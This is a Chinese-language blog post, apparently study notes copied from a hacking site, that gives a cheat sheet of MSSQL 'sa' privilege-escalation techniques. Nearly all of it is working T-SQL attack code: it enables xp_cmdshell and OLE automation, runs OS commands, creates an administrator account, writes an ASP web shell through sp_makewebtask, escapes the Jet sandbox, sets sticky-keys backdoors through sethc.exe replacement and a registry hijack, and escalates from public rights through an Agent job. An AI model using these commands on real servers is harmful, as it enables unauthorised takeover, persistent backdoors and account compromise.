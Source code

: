 title: "mssql_sa下常用和不常用提权操作大全"
date: 2013-06-05 21:15:05
tags:
id: 165
comment: false
categories:
  - 学习笔记
---

1\. 开启和关毕xp_cmdshell EXEC sp_configure ‘show advanced options’, 1;RECONFIGURE;EXEC sp_configure ‘xp_cmdshell’, 1;RECONFIGURE;– 开启xp_cmdshell EXEC sp_configure ‘show advanced options’, 1;RECONFIGURE;EXEC sp_configure ‘xp_cmdshell’, 0;RECONFIGURE;– 关毕xp_cmdshell EXEC sp_configure ‘show advanced options’, 0; GO RECONFIGURE WITH OVERRIDE; 禁用advanced options

2\. xp_cmdshell执行命令 EXEC master..xp_cmdshell ‘ipconfig’

3\. 开启和关毕sp_oacreate exec sp_configure ‘show advanced options’, 1;RECONFIGURE;exec sp_configure ‘Ole Automation Procedures’,1;RECONFIGURE; 开启 exec sp_configure ‘show advanced options’, 1;RECONFIGURE;exec sp_configure ‘Ole Automation Procedures’,0;RECONFIGURE; 关毕 EXEC sp_configure ‘show advanced options’, 0; GO RECONFIGURE WITH OVERRIDE; 禁用advanced options

4\. sp_OACreate删除文件 DECLARE @Result int DECLARE @FSO_Token int EXEC @Result = sp_OACreate ‘Scripting.FileSystemObject’, @FSO_Token OUTPUT EXEC @Result = sp_OAMethod @FSO_Token, ‘DeleteFile’, NULL, ‘C:\Documents and Settings\All Users\「开始」菜单\程序\启动\user.bat’ EXEC @Result = sp_OADestroy @FSO_Token

5\. sp_OACreate复制文件 declare @o int exec sp_oacreate ‘scripting.filesystemobject’, @o out exec sp_oamethod @o, ‘copyfile’,null,’c:\windows\explorer.exe’ ,’c:\windows\system32\sethc.exe’;

6\. sp_OACreate移动文件 declare @aa int exec sp_oacreate ‘scripting.filesystemobject’, @aa out exec sp_oamethod @aa, ‘moveFile’,null,’c:\temp\ipmi.log’, ‘c:\temp\ipmi1.log’;

7\. sp_OACreate加管理员用户

DECLARE @js int EXEC sp_OACreate ‘ScriptControl’,@js OUT EXEC sp_OASetProperty @js, ‘Language’, ‘JavaScript’ EXEC sp_OAMethod @js, ‘Eval’, NULL, ‘var o=new ActiveXObject(“Shell.Users”);z=o.create(“user”);z.changePassword(“pass”,”");z.setting(“AccountType”)=3;’

8\. 开启和关毕sp_makewebtask exec sp_configure ‘show advanced options’, 1;RECONFIGURE;exec sp_configure ‘Web Assistant Procedures’,1;RECONFIGURE; 开启 exec sp_configure ‘show advanced options’, 1;RECONFIGURE;exec sp_configure ‘Web Assistant Procedures’,0;RECONFIGURE; 关毕 EXEC sp_configure ‘show advanced options’, 0; GO RECONFIGURE WITH OVERRIDE; 禁用advanced options

9\. sp_makewebtask新建文件 exec sp_makewebtask ‘c:\windows.txt’,’ select ”&lt;%25execute(request(“a”))%25&gt;” ‘;;–

10\. wscript.shell执行命令 use master declare @o int exec sp_oacreate ‘wscript.shell’,@o out exec sp_oamethod @o,’run’,null,’cmd /c “net user” &gt; c:\test.tmp’

11\. Shell.Application执行命令 declare @o int exec sp_oacreate ‘Shell.Application’, @o out exec sp_oamethod @o, ‘ShellExecute’,null, ‘cmd.exe’,'cmd /c net user &gt;c:\test.txt’,'c:\windows\system32′,”,’1′; or exec sp_oamethod @o, ‘ShellExecute’,null, ‘user.vbs’,”,’c:\’,”,’1′;

12\. 开启和关毕openrowset exec sp_configure ‘show advanced options’, 1;RECONFIGURE;exec sp_configure ‘Ad Hoc Distributed Queries’,1;RECONFIGURE; 开启 exec sp_configure ‘show advanced options’, 1;RECONFIGURE;exec sp_configure ‘Ad Hoc Distributed Queries’,0;RECONFIGURE; 关毕 EXEC sp_configure ‘show advanced options’, 0; GO RECONFIGURE WITH OVERRIDE; 禁用advanced options

13\. 沙盒执行命令 exec master..xp_regwrite ‘HKEY_LOCAL_MACHINE’,'SOFTWARE\Microsoft\Jet\4.0\Engines’,'SandBoxMode’,'REG_DWORD’,1 默认为3 select * from openrowset(‘microsoft.jet.oledb.4.0′,’;database=c:\windows\system32\ias\ias.mdb’,'select shell(“cmd.exe /c echo a&gt;c:\b.txt”)’)

14\. 注册表劫持粘贴键 exec master..xp_regwrite ‘HKEY_LOCAL_MACHINE’,'SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options\sethc.EXE’,'Debugger’,'REG_SZ’,'C:\WINDOWS\explorer.exe’;

15\. sp_oacreate替换粘贴键 declare @o int exec sp_oacreate ‘scripting.filesystemobject’, @o out exec sp_oamethod @o, ‘copyfile’,null,’c:\windows\explorer.exe’ ,’c:\windows\system32\sethc.exe’; declare @oo int exec sp_oacreate ‘scripting.filesystemobject’, @oo out exec sp_oamethod @oo, ‘copyfile’,null,’c:\windows\system32\sethc.exe’ ,’c:\windows\system32\dllcache\sethc.exe’;

16\. public权限[提权](http://www.webshell.cc/tag/tiquan "提权,0day,上传,安全,拿站,漏洞,hacker,渗透,入侵,注入,webshell,黑客,远程")操作 USE msdb EXEC sp_add_job @job_name = ‘GetSystemOnSQL’, www.[webshell](http://www.webshell.cc/ "webshell,黑客,上传,提权,漏洞,渗透,拿站,入侵,注入,安全,hacker,0day,远程").cc @enabled = 1, @description = ‘This will give a low privileged user access to xp_cmdshell’, @delete_level = 1

EXEC sp_add_jobstep @job_name = ‘GetSystemOnSQL’, @step_name = ‘Exec my sql’, @subsystem = ‘TSQL’, @command = ‘exec master..xp_execresultset N”select ””exec master..xp_cmdshell “dir &gt; c:\agent-job-results.txt””””,N”Master”’ EXEC sp_add_jobserver @job_name = ‘GetSystemOnSQL’, @server_name = ‘SERVER_NAME’ EXEC sp_start_job @job_name = ‘GetSystemOnSQL’

mssql_sa下常用和不常用提权操作大全:http://www.webshell.cc/2225.html